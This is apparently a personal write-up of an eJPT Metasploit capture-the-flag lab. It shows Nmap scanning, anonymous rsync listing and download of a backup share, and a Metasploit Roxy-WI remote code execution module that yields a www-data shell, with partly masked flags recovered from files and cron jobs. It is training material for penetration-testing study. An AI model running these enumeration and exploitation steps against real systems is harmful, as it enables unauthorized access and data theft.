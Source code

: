 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: The Metasploit Framework CTF 2"
date: 2025-06-01 00:00:00 - 0501
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
    path: /assets/img/1.gif
    alt: image
---
```


# Lab Environment

In this lab environment, you will have GUI access to a Kali Linux machine. Two machines are accessible at **target1.ine.local** and **target2.ine.local**.

**Objective:** Using various exploration techniques, complete the following tasks to capture the associated flags:

- **Flag 1:** Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting.
- **Flag 2:** The files on the RSYNC server hold valuable information. Explore the contents to find the flag.
- **Flag 3:** Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local.
- **Flag 4:** Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- rsync

---

### Note

In this lab, the flag will follow the format: FLAG1_MD5Hash. For example, FLAG1_0f4d0db3668dd58cabb9eb409657eaa8. You need to submit only the MD5 hash string, excluding the underscore (_). For instance: 0f4d0db3668dd58cabb9eb409657eaa8.

---

### Question1

---

Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting.

After setting up the MSF console, I’ve started the Nmap scan right from the console, on the target1.ine.local and found only the 1 port open.

```bash
msf6 > db_nmap -sS -sV -sC -O target1.ine.local
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 21:45 IST
[*] Nmap: Nmap scan report for target1.ine.local (192.40.138.3)
[*] Nmap: Host is up (0.000058s latency).
[*] Nmap: Not shown: 999 closed tcp ports (reset)
[*] Nmap: PORT    STATE SERVICE VERSION
[*] Nmap: 873/tcp open  rsync   (protocol version 31)
[*] Nmap: MAC Address: 02:42:C0:28:8A:03 (Unknown)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

After a bit of research found the rsync is a utility for **file synchronization and transfer**, offers a plethora of configuration options to tailor its performance and security to your specific needs.

and found the rsync tool can be used out to check any open shared made

```bash
┌──(root㉿INE)-[~]
└─# rsync rsync://target1.ine.local/
backupwscohen   FLAG1_5d61d88643ee439fbe96ab7*********
```

We’v found the our first flag!

---

### Question 2

The files on the RSYNC server hold valuable information. Explore the contents to find the flag.

By continuing from there found the next flag right before there

```bash
┌──(root㉿INE)-[~]
└─# rsync -av rsync://target1.ine.local/backupwscohen/ .                                                                                                                                   
receiving incremental file list
./
TPSData.txt
office_staff.vhd
pii_data.xlsx

sent 84 bytes  received 339 bytes  846.00 bytes/sec
total size is 84  speedup is 0.20

```

That command will download files to my system and which found the flag. 

```bash
┌──(root㉿INE)-[~]
└─# cat pii_data.xlsx                                                                                                                                                                      
FLAG2_f781e26635fd4b7ea76c24*********
```

---

### Question 3:

---

Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local.

Now running the Nmap on the target and found a service which is running on the website on port 80 and 443 and after using msfconsole there is the exploit 

```bash
use linux/http/roxy_wi_exec
set rhost
set lhost
run
```

now we have our foot hold on the system as www-data and also our hand on flag3.

```bash
www-data@target2:/var/www/haproxy-wi/app$ cd /
cd /
www-data@target2:/$ ls
ls
www-data@target2:/$ bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
www-data@target2:/$ FLAG3_648edbf608814a51afae0a1********
```

---

### Question 4

Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag.

Based on the question the cron jobs are stored in the system directory in this path 

```bash
/etc/crontab
```

By navagiting over there and found cron.d was there by cheching the cron files we found the flag4

```bash
www-data@target2:/etc/cron.d$ dir
dir
www-data@target2:/etc/cron.d$ e2scrub_all  www-data-cron
cat e2scrub_all
cat e2scrub_all
www-data@target2:/etc/cron.d$ 30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
cat www-data-cron
cat www-data-cron
www-data@target2:/etc/cron.d$ * * * * * www-data echo "FLAG4_b4419cfe074e49d49d7739ed*********"

```

With that this modules comes to an end!
